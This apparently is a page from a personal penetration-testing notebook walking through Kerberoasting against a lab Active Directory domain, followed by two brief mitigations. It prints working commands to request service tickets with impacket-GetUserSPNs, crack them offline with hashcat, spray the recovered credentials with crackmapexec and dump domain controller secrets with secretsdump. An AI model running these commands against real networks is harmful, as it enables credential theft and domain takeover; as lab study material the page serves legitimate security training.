

repository: RayenManai/MyHackBook · page: Active Directory/attacking-ad/post-compromise-attacks/kerberoasting.html · generator: sphinx

# Kerberoasting

- Any authenticated domain user can request a TGS for any SPN.
- Service accounts often run critical services and are frequently over-privileged.
- Extract Kerberos Service Tickets (TGS) for accounts tied to Service Principal Names (SPNs), then brute-force the ticket offline to recover the service account’s password.
- If the service account password is weak, offline cracking is trivial.

## Walkthrough

1. Enumeration and Extraction

```
sudo impacket-GetUserSPNs MARVEL.local/fcastle:Password1! -dc-ip 10.0.2.18 -request -outputfile spns.hash
```

```{figure} ../../../_static/AD/kerberoasting1.png
:alt: Extracting SPNs
:width: 100%
:align: center

Extracting SPNs
```

2. Offline Cracking

Mode 13100 = Kerberos 5 TGS-REP etype 23.

```
hashcat -m 13100 spns.hash /usr/share/wordlists/rockyou.txt
```

```{figure} ../../../_static/AD/kerberoasting2.png
:alt: Cracking Service Password
:width: 100%
:align: center

Cracking Service Password
```

3. Privilege Escalation

- If successful, you get the service account password.
- Many service accounts are domain admins or have local admin rights across multiple machines, making this a strong lateral movement technique.

```
crackmapexec smb 10.0.2.0/24 -u SQLService -p 'MYpassword123#' -d MARVEL.local
impacket-secretsdump MARVEL.local/SQLService:'MYpassword123#'@10.0.2.XX
```

```{figure} ../../../_static/AD/kerberoasting3.png
:alt: Testing the credentials across the domain
:width: 100%
:align: center

Testing the credentials across the domain
```

Remember from our domain enumeration that this service account is misconfigured as Domain Admin. Therefore we can use it to dump secrets from any machine, including the DC.

```{figure} ../../../_static/AD/kerberoasting4.png
:alt: Dumping DC secrets
:width: 100%
:align: center

Dumping DC secrets
```

## Mitigations

- Strong Passwords
- Least privilege (Service account does not have to run as Domain Admin)
